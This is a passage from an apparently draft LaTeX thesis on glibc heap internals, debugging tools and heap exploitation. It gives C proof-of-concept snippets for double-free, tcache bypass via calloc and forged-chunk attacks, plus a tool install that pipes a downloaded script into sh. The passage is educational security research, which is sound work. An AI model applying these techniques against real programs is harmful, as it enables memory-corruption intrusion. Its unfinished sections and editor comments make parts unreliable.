Attacks in \sbs{} usually abuse this part of code to write data in a location by manipulating the pointer's data. Like what happens in a fast bin, the heap manager adds the same size chunk to \tch{} too. If the request was not in the range of \sbs{}, heap manager free and merge \fb{} chunk in the first place \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3699}{\texttt{malloc.c}, line 3699}}.
\begin{lstlisting}[language=c,frame=tlrb]
malloc_consolidate (av);
\end{lstlisting}

Now it is time to check \ub{} chunks. As we mention, the heap manager examines all of the \ub{} chunks to find a fair chunk. If the chunk has the same size, then the heap manages to return the chunk. If the chunk is bigger than the requested size heap manager split the chunk at first, return the user chunk. In the following the heap manager put the remaining chunk to corresponding bins too, and remove them from the \ub{} \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3725}{\texttt{malloc.c}, line 3725}}.

\begin{lstlisting}[language=c]
for (;; ) {
 int iters = 0;
 while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
 /* ... */
\end{lstlisting}
This adds and removes chunks that need to alter the forward and backward pointer of chunks which some times abused by an attacker to write data in a location. This part of code has some security check to find if the chunk and heap corrupted or not by checking the pointers and chunk size \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3734}{\texttt{malloc.c}, line 3734}}:
\begin{lstlisting}[language=c,frame=tlrb]
 if (__glibc_unlikely (size <= 2 * SIZE_SZ)
 || __glibc_unlikely (size > av->system_mem))
 malloc_printerr ("malloc(): invalid size (unsorted)");
 if (__glibc_unlikely (chunksize_nomask (next) < 2 * SIZE_SZ)
 || __glibc_unlikely (chunksize_nomask (next) > av->system_mem))
 malloc_printerr ("malloc(): invalid next size (unsorted)");
 if (__glibc_unlikely ((prev_size (next) & ~(SIZE_BITS)) != size))
 malloc_printerr ("malloc(): mismatching next->prev_size (unsorted)");
 if (__glibc_unlikely (bck->fd != victim)
 || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
 malloc_printerr ("malloc(): unsorted double linked list corrupted");
 if (__glibc_unlikely (prev_inuse (next)))
 malloc_printerr ("malloc(): invalid next->prev_inuse (unsorted)");
\end{lstlisting}

If all of above strategy fails, the heap manager tries to allocate chunk from free space at top chunk \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4087}{\texttt{malloc.c}, line 4087}}:

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */
use_top:
	victim = av->top;
	size = chunksize (victim);
	if (__glibc_unlikely (size > av->system_mem))
		malloc_printerr ("malloc(): corrupted top size");
 /* ... */
\end{lstlisting}

We can see, this part starts with a security check. In this case, the request size is bigger than the top chunk; the heap manager calls \lstinline{sysmalloc} as the last \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4141}{\texttt{malloc.c}, line 4141}}.

\begin{lstlisting}[language=c,frame=tlrb]
 void *p = sysmalloc (nb, av);
 \end{lstlisting}

This function checks if the system supports \mmapc{} allocation and the requested size is inside the \mmapc{} threshold. It allocates memory by using \mmapc{}. If it fails means there is no memory anymore, so \mallocc{} returns a null pointer.

\section{calloc}
\label{sect:calloc}
\Callocc{} \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3365}{\texttt{malloc.c}, line 3365}} is another glib function used to allocate memory. \Callocc{} and \mallocc{} have one important difference. Unlike \mallocc{}, \callocc{} does not use \tch{}. If we have free chunks in \tch{}, then request a new memory by \callocc{}, the heap manager will not use them. Instead, create a new chunk from the top chunk. Consider the following sample

\begin{lstlisting}[language=c,frame=tlrb]
int *a = malloc(8);
int *b = malloc(8);
free(a);
free(b);
calloc(1,8);
calloc(1,8);
\end{lstlisting}

If we look at the heap state after \callocc{}, we can see heap manager create new chunks from the top chunk and \tch{} chunks remain.

\section{Alignment}
\label{sect:alignment}
As we mention, one of the heap manager's responsibilities is to keep memory in 16-byte alignment. In short form, the heap manager return aligned memory in the allocation phase, then, When a user calls free to request a chunk, the heap manager checks the alignment of memory for security reasons too. First, see the allocation part:

\begin{lstlisting}[language=c,frame=tlrb]
#define SIZE_SZ (sizeof(INTERNAL_SIZE_T))
#define MALLOC_ALIGN_MASK (MALLOC_ALIGNMENT - 1)
#define MINSIZE (unsigned long)(((MIN_CHUNK_SIZE+MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK))
#define MALLOC_ALIGNMENT (2 *SIZE_SZ)
#define request2size(req)
(((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE) ? MINSIZE: ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)
\end{lstlisting}

\mallocc{} call request2size macro. This macro checks the request size, then return MINSIZE of allocation or an aligned allocation size. As we mentioned before, the heap manager saves some metadata alongside the user data, as the result, every chunk needs more space than the user requested also the allocation size cant be smaller than the minimum size. Now if we check the free function \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4177}{\texttt{malloc.c}, line 4177}}:

\begin{lstlisting}[language=c,frame=tlrb]
#define aligned_OK(m) (((unsigned long)(m) & MALLOC_ALIGN_MASK) == 0)
if (__glibc_unlikely (size < MINSIZE || !aligned_OK (size))){
 errstr = "free(): invalid size";
 goto errout;
}
\end{lstlisting}

The free function checks if the size is bigger than the minimum allocation size; the chunk size must align too; otherwise, a memory corruption error rais.
\section{mallopt}
\label{sect:mallopt}
\lstinline{mallopt} is a function used to tune the behavior of \libc{} memory allocation methods like \mallocc{}. In the below, we mention the parameters list, which \lstinline{mallopt} can modify.

\begin{enumerate}
\item \lstinline{M_ARENA_MAX} Defines the maximum number of arenas that heap managers can create. Programs usually have multiple threads, in which case an arena may receive multiple requests, so arenas must be thread-safe. Having more numbers arena means less thread concurrent; however, the higher memory needs.

\item \lstinline{M_MMAP_MAX} Define the maximum number of sequential memory allocation which can handle by \mmapc{}.

\item \lstinline{M_MMAP_THRESHOLD} The system uses the \mmapc{} to allocate larger memory than the
\end{enumerate}

Some of the \lstinline{mallopt} customizations can be performed by environment variable too. Using environment variables has the advantage that source code does not need change. Also, if the same parameter defines by \lstinline{mallopt} too, then the \lstinline{mallopt} has priority. 

\begin{enumerate}
\item \lstinline{MALLOC_ARENA_MAX} Controls the same parameter as \lstinline{mallopt} \lstinline{M_ARENA_MAX }.

\item \lstinline{MALLOC_MMAP_MAX_} Controls the same parameter as  \lstinline{mallopt}  \lstinline{M_MMAP_MAX }.

\item \lstinline{MALLOC_MMAP_THRESHOLD_} Controls the same parameter as \lstinline{mallopt} \lstinline{M_MMAP_THRESHOLD}.
\end{enumerate}

\section{malloc\_consolidate}
\label{sect:mallocconsolidate}
As the \libc{} document said, It is a specialized version of the free function that tears down chunks held in the \fb{}. When a new allocation request has arrived, in some conditions, the heap manager calls this method to tears down \fb{} chunks.

To find when \lstinline{malloc_consolidate} \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4440}{\texttt{malloc.c}, line 4440}} calls, we invest two different versions of \libc{}. the first one is 2.23 and the second one is 2.33 which is the latest \libc{} version. The first usage is the \mallocc{} function, Consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
 if (in_smallbin_range (nb)){
	 /* ... */
 	malloc_consolidate (av);
	 /* ... */
 }else{
	 /* ... */
	 malloc_consolidate (av);
	 /* ... */
 }
\end{lstlisting}

As we tell, small/\lb{} are one of the places which \mallocc{} search to find free chunk at the first phase. During this check, the heap manager performs flush to move \fb{} chunk too. If we check mentioned section in the latest \libc{} version, we see a \sbs{} check does not contain \lstinline{malloc_consolidate} anymore \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}}.

\begin{lstlisting}[language=c,frame=tlrb]
 if (in_smallbin_range (nb)){
 	 /* ... */
 }else{
	 /* ... */
	 malloc_consolidate (av);
	 /* ... */
 }
\end{lstlisting}

The second usage is when the heap manager wants to use the top chunk in \mallocc{}. Consider the following code in \mallocc{} \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4128}{\texttt{malloc.c}, line 4128}}:

\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */
use_top:
	 /* ... */
	else if (have_fastchunks (av)){
	 malloc_consolidate (av);
	}
\end{lstlisting}

The third usage is not in the \mallocc{}, instead, it is about free function. Consider the following code from the free function \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4398}{\texttt{malloc.c}, line 4398}}:

\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long)(size) >= FASTBIN_CONSOLIDATION_THRESHOLD) {
 if (have_fastchunks(av))
	malloc_consolidate(av);
	}
\end{lstlisting}

The rest of the usage located inside \lstinline{malloc_trim} and \lstinline{malloc_opt}
\chapter{Tools }
Tracking and watching memory without proper tools is almost impossible. There is a wide variety of debugging tools that depend on different platforms. These tools allow us to display any memory like stack and heap, disassemble binary code, execute and debug a binary program.

We worked exclusively on \libc{} as the heap manager on the x86 machine, so the primary tool is \emph{gdb}, as explained in \refToSection{GDB}. In addition to gdb, we use some utilities like its extension \emph{GEF}, introduced in \refToSection{GEF}, and \emph{heappy}, discussed in \refToSection{heappy}, to have better memory visualization. \glnote{DONE-added references to (sub)sections} \emph{pwndbg} , introduce in \refToSection{PWNDBG} , to improve \lstinline{gdb} visualization ,  \emph{Libc Database}, discuss in \refToSection{LibcDatabase}, to have all necessary versions of \libc{} and related files. \emph{Patchelf}, discuse in \refToSection{Patchelf} to modify the dynamic loader and RPATH of executable files, also in \refToSection{DebugLibc} we discuss how to debug executable and library inside the \lstinline{gdb}.

\glnote{DONE-you shoud list all sections here: heappy, libc db, patchelf, \ldots}

\section{GDB}
\label{sect:GDB}
Gdb is a portable debugger that works on Unix-like operating systems. Gdb allows us to execute, debug and modify inside an executable program while running, even without the source code. Gdb supports a wide variety of programming languages like C/C++, Go, Rust, and various assembly dialects. The installation process is easy; all we have to do is use the apt package manager:
\begin{lstlisting}[frame=tlrb]
sudo apt-get install gdb
\end{lstlisting}

\subsection{GEF}
\label{sect:GEF}
Gdb allows us to debug and watch inside a running program, but we need more tools to investigate a running program. Gef is a set of tools that give us more functionality when using gdb using the Python API to assist in the dynamic analysis process. To install gef, clone the repository, then add the python script to the gdb initialization file:
\begin{lstlisting}[frame=tlrb]
$ wget -O ~/.gdbinit-gef.py -q https://github.com/hugsy/gef/raw/master/gef.py
$ echo source ~/.gdbinit-gef.py >> ~/.gdbinit
\end{lstlisting}

\subsubsection{heap}
Gef has a lot of debugging tools; we focus on the heap utility of gef which call \emph{heap} .The heap command provide us information on \libc{} heap memory allocation. Syntax to the subcommands is straight forward:
\begin{lstlisting}[frame=tlrb]
gef: heap <sub_commands>
\end{lstlisting}

\paragraph*{\lstinline{heap chunks} command}
\glnote{DONE-I'd use paragraph* (that is, with the star) to avoid something like 3.1.1.1.1}

Display all heap chunks:
\begin{lstlisting}[frame=tlrb]
gef: heap chunks
\end{lstlisting}

\begin{center}

\includegraphics[height=0.2\textwidth]{gdb14}
\end{center}

\glnote{DONE-I'd remove the floating figures/references and simply include the graphics between begin-center/end-center, see the latex}
% \begin{figure}[h!]
% \makebox[\textwidth][c]{
\includegraphics[height=0.2\textwidth]{gdb14}}
% \caption{heap chunks}
% \label{fig:gefheapchunks}
% \end{figure}

\paragraph*{\lstinline{heap chunk} command}
This command provides information on a chunk like the size and pointer. Provide the address of the chunk data section to the command.\glnote{ok-for closing quotes you should use two single-quote characters: ''; please change everywhere}
\begin{lstlisting}[frame=tlrb]
gef: heap chunk <LOCATION>
\end{lstlisting}

\begin{center}

\includegraphics[height=0.2\textwidth]{gdb15}
\end{center}

\paragraph*{\lstinline{heap arenas} command}
As we mentioned in \refToSection{subheaps}\glnote{DONE-this is mentioned in another chapter, in cases like this, it's better to add a reference to the other section}, a multi-thread application has many arenas, not just one. Gef proves a sun command to retrieve the information of all arena.

\begin{lstlisting}[frame=tlrb]
gef: heap arenas
\end{lstlisting}

\begin{center}

\includegraphics[height=0.1\textwidth]{gdb16}
\end{center}

\paragraph*{\lstinline{heap bins} command}
\libc{} use bins to keep track of freed chunks. Gef provides a sun command to visualize the state of all bins of a running application.
\begin{lstlisting}[frame=tlrb]
gef: heap bins
\end{lstlisting}

\begin{center}

\includegraphics[height=0.2\textwidth]{gdb17}
\end{center}

\subsection{PWNDBG}\glnote{DONE-this tool is not mentioned at the beginning of the chapter! Please add it}
\label{sect:PWNDBG}
\emph{pwndbg} is a set of tools that aim at helping us during debugging with GDB. It works like a GEF by providing us with more tools to investigate a running program.
To install pwndbg, clone the repository, then add it to the gdb initialization file:
\begin{lstlisting}[frame=tlrb]
cd ~/
git clone https://github.com/scwuaptx/Pwngdb.git
cp ~/Pwngdb/.gdbinit ~/
\end{lstlisting}
\subsubsection{commands}
Like gdb, it provides some commands to monitor the heap state. Unlike gef, it does not have subcommands.

\paragraph*{\lstinline{heap} command}
This command provides information about allocated and freed chunks, also the top chunk.
\glnote{DONE-same thing as before, regarding the figures}

\begin{center}

\includegraphics[height=0.4\textwidth]{gdb18}
\end{center}

\paragraph*{\lstinline{bins} command}
Provide information about freed chunks inside every bin.

\begin{center}

\includegraphics[height=0.4\textwidth]{gdb19}
\end{center}

\paragraph*{\lstinline{top_chunk command}}

Show top chunk information.

\begin{center}

\includegraphics[height=0.1\textwidth]{gdb20}
\end{center}


\section{Heappy}
\label{sect:heappy}
Unlike previously mentioned tools, heappy focuses on heap layout presentation. This utility is an editor which presents a graphical layout of the heap. To install heappy, first, we have to download requirements:

\begin{lstlisting}[frame=tlrb]
wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
apt update
sudo apt install nodejs npm
\end{lstlisting}

In the next step, clone the heappy and install it by npm

\begin{lstlisting}[frame=tlrb]
git clone https://github.com/gand3lf/heappy
cd heappy/
npm install
\end{lstlisting}

then load the server file during the debug inside the gdb
\begin{lstlisting}[frame=tlrb]
gef: source /my/path/heappy/server/heappy.py
\end{lstlisting}

finally, execute the editor by npm

\begin{lstlisting}[frame=tlrb]
cd /my/path/heappy/
npm start
\end{lstlisting}


\section{Libc database}
\label{sect:LibcDatabase}
We deal with different versions on \libc{}, which are different from our machine version, during the exploitation. So, we need to download different versions of \libc{}. The \emph{libc-database} project has all of \libc{} for different machines, also, the corresponding dynamic loader. To use libc-database simply clone it first:
\begin{lstlisting}[frame=tlrb]
git clone git@github.com:niklasb/libc-database.git
\end{lstlisting}
then with the help of the download script file, we can download any version of \libc{}; e.g.:
\begin{lstlisting}[frame=tlrb]
./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
 -> Location: http://security.ubuntu.com/ubuntu/.../glibc/libc6_2.23-0ubuntu10_amd64.deb
 -> Downloading package
 -> Extracting package
 -> Package saved to libs/libc6_2.23-0ubuntu10_amd64
ls libs/libc6_2.23-0ubuntu10_amd64
ld-2.23.so ... libc.so.6 ... libpthread.so.0 ...
\end{lstlisting}

\section{Patchelf}
\label{sect:Patchelf}
It is easy to compile an application for a specific version of \libc{} and dynamic loader when we have the source code. However, we do not always have the source code; often, we have just the executable file. In such situations, we have to set \libc{} and dynamic-loader path for the executable file, otherwise the program uses the machine \libc{}:
\begin{lstlisting}[frame=tlrb]
patchelf --set-interpreter <DYNALIC_LOADER_FILE.so> --set-rpath <LIBC FOLDER> <EXECUTABLE FILE>
\end{lstlisting}

\section{Debug Libc}
\label{sect:DebugLibc}

Debugging inside the \libc{} source code is essential while investigating an attack. To debug the \libc{} we need debugging symbols; otherwise, gdb could not show us the source code. If we compile the program with our machine \libc{}, it is possible to install the symbols with the apt package manager.
\begin{lstlisting}[frame=tlrb]
sudo apt-get install libc6-dbg
\end{lstlisting}

If you are using another version of \libc{}, you must download the desired version and then compile it. The first step is to clone \libc{} source code
\begin{lstlisting}[frame=tlrb]
git clone https://sourceware.org/git/glibc.git
\end{lstlisting}
with the help of \emph{tag} command, we can see all version of \libc{}, then \emph{checkout} to desired version
\begin{lstlisting}[frame=tlrb]
git tag
git checkout glibc-2.27
\end{lstlisting}
after that, we have to compile the source code
\begin{lstlisting}[frame=tlrb]
<glibc-source-path>/configure --disable-werror --prefix=/usr --without-selinux
\end{lstlisting}
Inside the gdb, we can set debug symbols directory. After waiting a while, we run the make command to make the \libc{}. The final result is the \libc{} and debugging symbols.

\chapter{Heap Exploitation}
Implementation of the \libc{} has changed and improved over the past years, because of various exploitation methods proposed. In this chapter, we discuss must famous heap exploitation techniques. How exploitation works entirely depends on the heap implementation; as a result, some methods work on a specific version of \libc{}. We discussed each technique in one or more versions.

\glnote{spellcheck the document! And check the English: singulars/plurals etc}
In \refToSection{useafterfree} we interduce \lstinline{use after free} as a classic heap vulnerability. Double \lstinline{free} attack disscus in \refToSection{doublefree} , then,\lstinline{forged chunk} attack present in \refToSection{forgedchunk}. \lstinline{unsorted bin attack} discuss in \refToSection{ubattack} as an vulnerbility in \ub{} , moreover, vulnerbility in \lb{} present as \lstinline{larg bin attack} in \refToSection{lbattack}. The next attack is \lstinline{overlapping chunk} which introduce in \refToSection{overlappingchunk}. The Houses series attack introduces in \refToSection{thehouses}. In following \lstinline{House of mind} inroduce in \refToSubSection{housemind} ,\lstinline{House of force} inroduce in \refToSubSection{houseforce}, \lstinline{House of lore} inroduce in \refToSubSection{houselore}   , \lstinline{House of spirits} discues in \refToSubSection{housespirits}, \lstinline{House of orange} inroduce in \refToSubSection{houseorange}, And respectively \lstinline{House of roman}, \lstinline{House of rabbit}, \lstinline{House of orange}, \lstinline{House of Einherjar} and \lstinline{House of botcake} discuesses in \refToSubSection{houseroman}, \refToSubSection{houserabbit}, \refToSubSection{houseein} and \refToSubSection{housebotcake}.The last attack is \lstinline{tcach poisoning} intorduces in \refToSection{tchpoison}
\glnote{you should use lstinline only for identifiers/function names; the names of techniques are better in emph}

\section{Use After Free-NOT COMPILITED}
\label{sect:useafterfree}

\section{Double Free}
\label{sect:doublefree}
This is the first attack that we want to discuss, since it is used by other attacks too. What happens if an allocated chunk of data gets freed twice? In this situation, the heap data structure is corrupted and it leads to a memory \emph{leak} that an attacker can leverage. As we discussed before, after the user frees an allocated space, this chunk is added to a corresponding bin. In the simplest scenario in \libc{-2.23}, it is added to \fb{}. Consider the following sample code:

\begin{lstlisting}[language=c,frame=tlrb]
a = malloc(10); // 0xa04010
b = malloc(10); // 0xa04030
c = malloc(10); // 0xa04050
free(a);
free(b);
free(a);
d = malloc(10); // 0xa04010
e = malloc(10); // 0xa04030
f = malloc(10); // 0xa04010
\end{lstlisting}

At first, we requested 3 chunks of 10-bytes each. After that, we free \lstinline{a} and \lstinline{b} and, finally, \lstinline{a} again. You can see the fast bin structure after \lstinline{free} below step by step:

\begin{lstlisting}[frame=tlrb]
head -> a -> tail
head -> b -> a -> tail
head -> a -> b -> a -> tail
\end{lstlisting}

As you can see, we have \lstinline{a} twice in the \fb{} now.
Why we freed \lstinline{b} in the middle? As one of the \fb{} security checks, if \lstinline{a} is doubly freed, the fast bin can detect that \lstinline{a} is on the top of the list right now, and the program is terminated by the heap manager. To bypass this \fb{} security check, it is mandatory to free another chunk in the middle. Then, three new chunks of data are allocated in the following. You can see the fast bin state below step-by-step during the second allocation:

\begin{lstlisting}[frame=tlrb]
head -> b -> a -> tail [ 'a' is returned ]
head -> a -> tail [ 'b' is returned ]
head -> tail [ 'a' is returned ]
\end{lstlisting}

In the end, \lstinline{d} and \lstinline{f} point to the exactly same memory location. We should pay attention to both allocations having the same chunk size; otherwise, the heap manager creates a new chunk from the top chunk instead of returning \fb{} freed chunks.

Currently, this method needs to be modified since \libc{-2.26} introduced the \tch{}. On the new \libc{}, freed chunks are added to the \tch{} instead of \fb{}, as the result, we need to do some modification to this attack. Consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
void *ptrs[8];
for (int i=0; i<8; i++) {
	ptrs[i] = malloc(8);
}
for (int i=0; i<7; i++) {
	free(ptrs[i]);
}
\end{lstlisting}

A simple solution to add free chunks to \fb{} instead of \tch{} is to fill the \tch{}, in the following, create new chunks from the top chunk instead of returning freed \tch{} chunks. The above code allocates seven chunks of 8 bytes, then free all of them. In the new version of \libc{}, all of these seven freed chunks goes to the \tch{}. The \Tch{} can keep up to 7 chunks. From this point, if we release other chunks, they are added to \fb{} because \tch{} is full. Now we pull back to the original approach and allocate three new chunks. If we use \mallocc{} to allocate fresh chunks, the heap manager returns chunks from \tch{}; so, \tch{} becomes accessible again, and we can not implement the attack. In such a situation an attacker could leverage \callocc{}, since that function does not use \tch{}, and \fb{} are free, so \callocc{} gets memory from the top chunk.

\begin{lstlisting}[language=c,frame=tlrb]
int *a = calloc(1, 8);
int *b = calloc(1, 8);
int *c = calloc(1, 8);
\end{lstlisting}

The result of the above code is 3 new chunks of allocated memory from the top chunk, while \tch{} is still full of freed chunks. In other words, we force the heap manager to allocate memory from the top chunk instead of using freed chunks. The above approach is used by other attacks to bypass the \tch{} policy too. The following steps are like the original approach, but using \callocc{}:

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(b);
free(a);
a = calloc(1, 8);
b = calloc(1, 8);
c = calloc(1, 8);
\end{lstlisting}

In the previous example, we used small chunk allocation. What does it happen when we request a larger chunk? Consider the example below on \libc{-2.23}:

\begin{lstlisting}[language=c,frame=tlrb]
void* p1 = malloc(0x40);
void* p2 = malloc(0x40);
free(p1);
void* p3 = malloc(0x400);
free(p1);
\end{lstlisting}

The third \mallocc{} ask for a significant memory allocation; this allocation triggers another method call \lstinline{malloc_consolidate} automatically. \Mallocc{} in this situation, consolidate chunks in the fast bin before continuing, then put the resulting merged chunks on the \ub{}.
Such behavior is that we have another solution to bypass the fast bin double-free security check. It is possible to use \mallocc{} with a big size instead of freeing another chunk in the middle of two free. The third \mallocc{} moves a chunk from fast bin to the unsorted; as a result, when the second free request arrives, there is no chunk inside the \fb{}. We can implement a double-free attack. In the final layout, we have \lstinline{p1} on both \fb{} and \ub{}. Moving \fb{} chunks to \ub{} by asking for a big size memory allocation is a simple approach used by other attack methods too.

\section{Forged Chunk}
\label{sect:forgedchunk}
Freeing up a chunk does not prevent access to it because the pointer still exists in the application, so we can implement an attack on the heap data structure by controlling the pointer. The code below shows how we can return our forged chunk instead of a real heap chunk:

\begin{lstlisting}[language=c,frame=tlrb]
struct forged_chunk {
	size_t prev_size;
	size_t size;
	struct forged_chunk *fd;
	struct forged_chunk *bck;
	char buf[10];  // padding
};
a = malloc(10);  // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk; // At address 0x7ffc6de96690
chunk.size = 0x20;
data = (char *)&chunk.fd;
strcpy(data, "attacker's data");

free(a); // Put the fast chunk back into fastbin

// Modify 'forward' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;

// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);   // Will return 0x219c010
victim = malloc(10);  // Points to 0x7ffc6de966a0
\end{lstlisting}

In the first step, we allocate a memory \lstinline{a} with 10-byte size, also, create our fake chunk with size 0x20. Chunk size is essential. It must fall in \fb{} range because \fb{} has a security check on chunk size while removing it from the list.
Now by calling \lstinline{free(a)}, the real chunk is put back in the \fb{}. As we tell, we free up space, but the pointer still points to chunk memory location. We make the forward pointer of freed chunk \lstinline{a} to point to our forged chunk. The current layout of the heap is like below now:

\begin{lstlisting}[language=,frame=tlrb]
head -> a -> forged chunk -> undefined (forward of the forged chunk is holding
                                             the string "attacker's data")
\end{lstlisting}

In the following, by first allocating \lstinline{a} again, the heap manager returns the \lstinline{a} from the fast bin; following that, our forged chunk will be at the head, so a subsequent allocation returns it instead of a real chunk.

\begin{lstlisting}[language=c,frame=tlrb]
head -> forged chunk -> undefined
head -> undefined [ forged chunk is returned to the victim ]
\end{lstlisting}

Taking this into consideration, another allocation on \fb{} could raise a \emph{segmentation fault}, but also returning \emph{any value} the attacker chooses.

In the next sample we use double-free vulnerabilities in \libc{-2.23}; the below code is just an extended version of the Double Free attack which we examined. The extended version tricks \mallocc{} into returning a controlled memory location on the stack instead of a real chunk of the heap.

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long long stack_var;
int *a = malloc(8);
int *b = malloc(8);
int *c = malloc(8);
free(a);
free(b);
free(a);
unsigned long long *d = malloc(8);
malloc(8);
stack_var = 0x20;
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
malloc(8)
malloc(8)
\end{lstlisting}

As describe in the first part, we allocate three chunks and free one of them twice to bypass the \fb{} security check as we mentioned before; as a result, we have twice \lstinline{a} in the \fb{} list and attack by modifying data at \lstinline{a}. There are two \mallocc{} on the following; the first one keep access to \lstinline{a} inside \lstinline{d} pointer, the second one simply remove the \lstinline{b} from top of the \fb{}, now we have one pointer to \lstinline{a} inside the program as \lstinline{d}; also, another \lstinline{a} at top of the heap, remember any change on \lstinline{a} inside the program could affect on \lstinline{a} at top of \fb{} too.

\begin{lstlisting}[language=c,frame=tlrb]
head -> a
\end{lstlisting}

The final step is to write 0x20 on the stack, overwrite the first 8 bytes of data at \lstinline{a} (any change on \lstinline{d} affects \lstinline{a} at the top of the \fb{}) in a way to point to right before the value 0x20 on the stack. In this way, we trick the heap manager into thinking there is an available free chunk.
